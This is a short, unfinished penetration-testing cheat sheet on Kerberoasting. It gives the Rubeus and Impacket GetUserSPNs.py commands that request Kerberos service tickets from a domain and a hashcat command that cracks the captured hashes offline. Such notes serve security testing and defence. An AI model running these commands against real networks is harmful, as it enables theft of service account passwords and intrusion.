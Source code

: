 # Kerberoasting

#### STILL EDITING

#### Kerberoasting

> **Kerberoasting** allows a user to request a service ticket for any service with a registered **SPN** then use that ticket to crack the service password.

* **Rubeus** (local):

```powershell
.\Rubeus.exe kerberoast
```

* **Impacket** (remote):

```bash
GetUserSPNs.py <Domain>/<username>:<password> -dc-ip <IP> -request
```

* Cracking Kerberos 5 etype 23 TGS-REP:

```bash
hashcat -m 13100 -a 0 hash.txt Pass.txt
```

